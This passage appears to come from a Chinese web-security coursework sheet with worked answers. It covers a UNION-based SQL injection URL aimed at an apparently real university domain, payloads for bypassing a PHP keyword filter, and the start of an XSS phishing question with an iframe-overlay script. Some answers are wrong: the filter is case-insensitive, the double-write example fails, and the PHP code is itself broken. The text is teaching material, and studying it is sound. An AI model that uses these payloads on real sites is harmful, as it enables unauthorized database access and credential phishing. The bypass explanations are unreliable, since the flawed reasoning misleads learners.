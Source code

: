 构造攻击语句：http://www.cuit.cn/login.php?id=1' UNION SELECT 1,2,3,database(),version() --+

攻击思路：
- 构造的`id`参数值为`1' UNION SELECT 1,2,3,database(),version() --+`用于查询数据库名称和版本号
- `1'`是用来关闭原始查询中的`user_id = '$id'`条件。
- `UNION SELECT 1,2,3,database(),version()`是用来执行联合查询，以获取数据库名和版本号。
- 最后的`--+`是用来注释掉原始查询语句的剩余部分，确保整个联合查询语句有效。

通过这种方式构造的攻击语句将使得查询数据库名的操作成功执行，并将数据库名和版本号作为结果返回给攻击者。

### 3. 请分析下面的代码，并回答问题

```php
function blacklist($id)
{
    $id=preg_replace('or/i',"",$id);
    $id=preg_replace('/and/i',"".$id);
    return $id;
}
```

#### (1)`Web`应用考虑了对用户输入的`id`进行过滤限制。该语句对什么进行了过滤？

答：这段代码对传入的`id`参数进行了过滤，使用了正则表达式将输入中的"`and`"和"`or`"字符替换为空字符串，以使得`id`参数不包含这些关键词。

#### （2）在进行`SQL`注入时，采用什么语句进行该过滤的绕过？

答：有多种方式进行绕过：

1. 可以对`and`和`or`关键字进行双写，如：

   ```mysql
   ?id=1' anand 1=1 --+
   ```

2. 该语句的过滤只是匹配`and`和`or`关键字，但是无法区分大小写，于是可以进行关键字大写来绕过

   ```mysql
   ?id=1' anD 1=1 --+
   ```

3. 也可以使用运算符代替关键字

   ```mysql
   ?id=1' || '1'='2 --+
   ```

### 4. 利用`XSS`实现网络钓鱼，正常的登录页面是`login.php`，攻击者构造了一个`js`文件，内容如下所示：

```js
document.body.innerHTML=(
    '<div style="position:absolute;top:-2px;left:-2px;width:100%;height:100%;">' + '<iframe src=http://localhost/xss/login/phishing.html width=100% height=100% frameborder="no" marginwidth="0" marginheight="0" scrolling="no">' + '</iframe></div>'
);
```

请回答：
